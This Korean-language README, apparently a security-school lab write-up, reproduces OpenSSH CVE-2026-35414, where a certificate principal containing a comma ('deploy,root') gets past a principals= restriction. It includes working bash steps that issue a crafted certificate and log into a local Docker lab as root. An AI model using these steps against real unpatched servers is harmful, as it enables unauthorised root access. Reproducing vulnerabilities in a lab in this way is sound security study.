

# OpenSSH CVE-2026-35414 (SplitSSHell)
---
> 화이트햇 스쿨 4기 - [이재균 (@grassplatypus))](https://github.com/grassplatypus)


## 1. 설명

SSH 인증서(certificate) 인증에서 `authorized_keys` 의 `cert-authority` 항목에 `principals="..."` 옵션을 통해 CA 가 서명한 인증서 중, 지정한 principal 을 가진 것만 이 계정에 로그인할 수 있도록 할 수 있습니다.

`sshd` 는 사용자가 제시한 인증서의 principal 목록과 `principals=` 허용 목록을 비교할 때, `match_list()`를 사용합니다. 이 함수는 두 문자열을 각각 comma(`,`)로 분리한 뒤 공통 원소를 찾습니다.

이때, 인증서에 **comma가 포함된 단일 principal** (예: `"deploy,root"`로 단 1개)이 들어 있으면, `sshd` 는 이를 `deploy`와 `root`로 나눠서 비교합니다. 이때, `root`와 `deploy,root`는 공통 원소 `root`을 가지고 있습니다.

서버는 인증서의 principal이 `root`하나만 있는 것을 허용해야 하나(`deploy`, `root`로 2개가 있는 것은 거부.), 이 취약점은 `deploy,root` 등 도 허용합니다.

이때, `ssh-keygen`을 통해서 만든 인증서는 정상적으로 생성되어, 특별히 craft한 인증서가 필요합니다.

이 취약점은 OpenSSH 10.3 / 10.3p1부터 수정되었습니다.

## 3. 재현 절차

```bash
# Docker 시작
docker compose up -d --build

# 공격자의 개인 키와 공개 키 쌍 생성
ssh-keygen -t ed25519 -f attacker -N ""

# 취약한 인증서 발급 (principal이 1개인데 그 안에 comma가 있는 것)
curl -s --data-binary @attacker.pub \
    "http://127.0.0.1:8000/issue?username=deploy%2Croot" -o evil-cert.pub

# 3) principal이 "1개"이고 값에 comma가 있는지 확인
ssh-keygen -L -f evil-cert.pub | grep -A2 Principals
#   Principals:
#           deploy,root       <-- comma가 있는 단일 principal

# 4) root 로 로그인 (:2222)
ssh -p 2222 -o StrictHostKeyChecking=no \
    -i attacker -o CertificateFile=evil-cert.pub root@127.0.0.1 id
#   uid=0(root) gid=0(root) groups=0(root)   <- 성공
```


## 4. 참고 자료

- OpenSSH 10.3 릴리스 노트: https://www.openssh.com/txt/release-10.3
- NVD: https://nvd.nist.gov/vuln/detail/CVE-2026-35414
- Cyera, "SplitSSHell: When a Comma Becomes Root": https://www.cyera.com/research/splitsshell-when-a-comma-becomes-root-how-a-single-character-broke-openssh-certificate-authentication
- 취약점 PoC 출처 (Vladimir Eli Tokarev): https://github.com/VladimirEliTokarev/SplitSSHell